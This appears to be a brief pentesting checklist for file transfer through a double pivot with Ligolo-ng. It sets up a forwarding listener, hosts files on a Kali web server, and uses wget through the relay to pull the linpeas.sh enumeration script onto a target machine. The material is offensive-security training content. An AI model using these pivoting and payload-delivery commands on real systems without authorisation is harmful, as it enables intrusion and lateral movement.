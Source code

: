 - [ ] On your Kali Machine, create a TCP listening socket on the agent (0.0.0.0:8888) and redirect connections to the 80 port of the proxy server.
```
listener_add --addr 0.0.0.0:8888 --to 127.0.0.1:80 --tcp
```

- [ ] Ensure listener is added on your Ligolo server
```
listener_list
```

- [ ] Start python webserver on your Kali Machine
```
python3 -m http.server 80
```

- [ ] Download file(s) from webserver on the Target Machine through the Double Pivot Machine
```
wget http://10.20.yyy.254:8888/linpeas.sh
```


References:
https://github.com/nicocha30/ligolo-ng
https://www.youtube.com/watch?v=DM1B8S80EvQ
https://4pfsec.com/ligolo
